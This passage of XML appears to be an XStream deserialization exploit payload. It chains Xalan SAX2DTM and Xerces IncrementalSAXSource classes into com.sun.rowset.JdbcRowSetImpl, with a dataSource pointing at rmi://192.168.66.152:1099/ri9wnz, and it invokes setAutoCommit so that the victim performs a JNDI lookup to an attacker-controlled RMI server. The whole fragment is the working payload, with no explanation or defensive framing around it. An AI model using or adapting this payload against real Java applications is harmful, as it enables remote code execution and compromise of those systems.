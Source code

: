 ```
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://192.168.66.152:1099/ri9wnz</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
```